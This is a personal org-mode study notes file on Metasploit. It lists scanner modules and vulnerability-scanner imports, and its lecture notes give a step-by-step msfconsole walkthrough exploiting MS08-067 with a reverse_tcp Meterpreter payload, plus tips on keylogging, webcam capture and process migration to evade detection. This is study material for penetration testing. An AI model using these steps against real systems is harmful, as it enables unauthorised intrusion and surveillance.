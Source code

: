#+TAGS: sec_o


* Metasploit							      :sec_o:
GitHub: [[https://github.com/rapid7/metasploit-framework][github.com/rapid7/metaspoit-framework]]
* Cmds
[[file://home/crito/org/tech/cmds/msfconsole.org][msfconsole]]
[[file://home/crito/org/tech/cmds/msfvenom.org][msfvenom]]
* Scanners
mssql_ping - this scanner can be used to determine the tcp port and other details about a running MSSQL
smb_version - this will let you know if a machine has samba running and provide other machine information
ssh_version - this will determine the daemon and ssh version
ftp_version - this will version and fingerprint any running ftp server
anonymous - this will check if the ftp server allows anonymous login
snmp_enum - this will help in detection of devices that are using SNMP 
snmp_login - will use a word list, attempting to login to the device


* Related
- Armitage
- Cobalt Strike
* Description
* Usage
** Vulnerability Scanners
*** NeXpose
- import scan
#+BEGIN_SRC sh
db_connect postgres:toor@127.0.0.1/msf3
db_import /tmp/host_101.xml
db_hosts -c address,svcs,vulns
#+END_SRC

- scan within msfconsole
#+BEGIN_SRC sh
db_connect postgres:toor@127.0.0.1/msf3
load nexpose
nexpose_connect dookie:s3cr3t@192.168.56.103
nexpose_scan 192.168.56.101
db_hosts -c address
#+END_SRC
Scanning from within the msfconsle whist convenient will produce a less complete scan

*** Nessus
- import scan
#+BEGIN_SRC sh
db_connect postgrs:toor@127.0.0.1/msf3
db_import /tmp/nessus_report_Host_101
#+END_SRC

*** OpenVAS
    
*** Speciality Vuln Scanners
vnc_none_auth - this will scan for VNC server configured without a password (rare as modern VNC servers require password for installation). Possible RealVNC4.1.1
open_x11 - this searches a range of hosts for X11 servers that allow connection without authentication


* Lecture
** [[https://www.youtube.com/watch?v%3DadSQyRPpiBw][Getting Started with Meatasploit - Nathan Sweaney]]
+ Command Line Access
  - msfconsole
  - msfvenom
- msfpayload, msfencode, msfcli have deprecated to msfvenom

+ Terminology
  - Modules
    - Exoplits - take advantage of vulnerability
    - Payloads - does something on the target sys
    - Encoders - bypass av and ids
    - Auxiliary - scanners that aid in discover of certain systems
    - Post - information gathering modules
  - Meterpreter 
    - advanced payload that runs in memory on the target
  - Plugins
    
+ The exploit
  - Target - Unpatched Windows XP Machine
  - Exploit - MS08-067 - MS Server Service Relative Path Stack corruption
  - Payload - Meterpreter
    
- Finding a Module
msf> search MS08-067
This will ouput a description of the exploit with name, disclousure date, Rank, Description

- Set the Module
msf> use exploit/windows/smb/ms08_067_netapi

- View options for module
msf> show options
This will show use the current settings for this module, and is exploit specific

- View possible targets this exploit works on
msf> show targets

- Set the remote host
msf> set RHOST 10.0.1.45

+ Payloads
  - Singles - Simple, self-contained code
    - example: add a user, execute a cmd
  - Stagers - Setup a network connection
    - Examples: TCP lictener on a port, Reverse TCP connection
  - Stages - Advanced payloads sent via stager
    - Examples: VNC server, command shell, Meterpreter

- set payload
> set payload windows/meterpreter/reverse_tcp
never use the default ports, security aware targets maybe monitoring these ports

- show options
> show options
this will now also set the options for the payload

- to run the exploit
> exploit

+ Meterpreter
  - Tons of cmds
    - help
    - OS cmds (cd, ls, pwd, cat, mv, rm)
    - Networking (arp, ifconfig, netstat, portfwd, route)
    - upload/download
    - Record keystrokes, screenshots, webcam, microphone
  - Additional plugins
    
meterpreter> sysinfo - give overview of the system (not much provided win7 or newer)
meterpreter> getpid - get the current pid of meterpreter
meterpreter> migrate 624 - migrate to another process that is less detectable

+ Auxiliary Modules
  - Sniffing
  - Scanning
  - Fuzzing

- Examples
  - tomcat_mgr_login
  - dir_listing
  - vnc_none_auth
  - http_ntlm
  - mssql_exec
    
- Non-Attack
  - scanner/ssh/ssh_version
  - scanner/mssql/mssql_login
  - scanner/ipmi/ipmi_version
  - scanner/http/http_version
  - scanner/snmp/snmp_login

* Tutorial
* Books
[[file://home/crito/Documents/Security/Metasploit/Metasploit-The_Penetration_Testers_Guide.pdf][Metasploit - The Penetration Tester's Guide]]
[[file://home/crito/Documents/Security/Metasploit/Metasploit_Penetration_Testing_Cookbook_2e.pdf][Metasploit Penetration Testing Cookbook]]
[[file://home/crito/Documents/Security/Metasploit/Metasploit_Toolkit_for_Penetration_Testing.pdf][Metasploit Toolkit for Penetration Testing]]
[[file://home/crito/Documents/Security/Metasploit/Metasploit_Guide.pdf][Metasploit Guide]]

* Links
